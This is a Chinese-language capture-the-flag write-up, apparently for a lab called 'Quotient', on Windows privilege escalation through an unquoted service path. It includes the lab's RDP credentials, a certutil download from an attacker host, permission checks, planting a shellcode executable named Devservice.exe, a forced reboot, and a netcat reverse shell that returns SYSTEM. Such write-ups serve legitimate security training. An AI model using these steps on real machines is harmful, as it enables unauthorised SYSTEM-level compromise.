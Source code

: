 # Quotient

语法很重要。不相信我？看看当你忘记标点符号时会发生什么。

使用以下凭据使用 RDP 访问计算机：

Username: sage

Password: gr33ntHEphgK2&V

请等待 4 到 5 分钟，以便 VM 启动。

---

应该是关于windows纯提权的点

那就直接登rdp进去看看

把必要的工具传进去：

    certutil -urlcache -split -f http://10.14.39.48:8000/accesschk.exe

WinPEAS也丢进去

    sc qc "Development Service"

    C:\Program Files\Development Files\Devservice Files\Service.exe

该服务BinaryPath未被引号包裹

    accesschk -w "C:\Program Files\Development Files\"

    RW BUILTIN\Users

可以看到有权限写入该文件夹

生成shellcode并将名字修改成Devservice，移动到：

    copy Devservice.exe "C:\Program Files\Development Files\"

由于我们没权限restart该服务，我们可以选择重启系统以达到目的：

    shutdown -r -t 0

重启前先开启netcat侦听

系统启动后，我们将能getshell

<pre>Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.241.81.
Ncat: Connection from 10.10.241.81:49670.
Microsoft Windows [Version 10.0.17763.3165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\system
</pre>
